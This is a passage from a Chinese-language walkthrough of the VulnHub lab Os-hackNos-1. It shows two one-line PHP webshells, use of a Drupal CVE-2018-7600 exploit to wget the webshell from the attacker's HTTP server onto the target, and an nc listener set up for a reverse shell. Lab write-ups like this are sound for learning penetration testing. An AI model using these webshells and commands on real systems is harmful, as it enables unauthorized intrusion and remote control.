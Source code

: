 ![image-20230628232052599](vulnhub靶机 Os-hackNos-1.assets\image-20230628232052599.png)



在当前目录写一个一句话木马

这里参考的moonsec的

moon.php

```
<?php system($_POST['moon']);?>
```

这里写自己的webshell

php.php

```
<?php @eval($_POST['qwer']);?>
```

后者可以通过菜刀之类的webshell工具进行连接

这里用哥斯拉进行连接

![image-20230628232108952](vulnhub靶机 Os-hackNos-1.assets\image-20230628232108952.png)

![image-20230628232130003](vulnhub靶机 Os-hackNos-1.assets\image-20230628232130003.png)



或者采用第一种(即moon的方式)进行反弹shell

然后在当前目录开启python自带的httpserver

python -m SimpleHTTPServer

然后使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c "wget http://192.168.5.129:8000/moon.php"   
```

将php文件上传到靶机上

再使用

```
./drupa7-CVE-2018-7600.py http://192.168.5.132/drupal/ -c ls
```

查看php木马是否上传成功

![image-20230628232146849](vulnhub靶机 Os-hackNos-1.assets\image-20230628232146849.png)





首先在kali中使用nc进行监听

nc -lvnp 9000
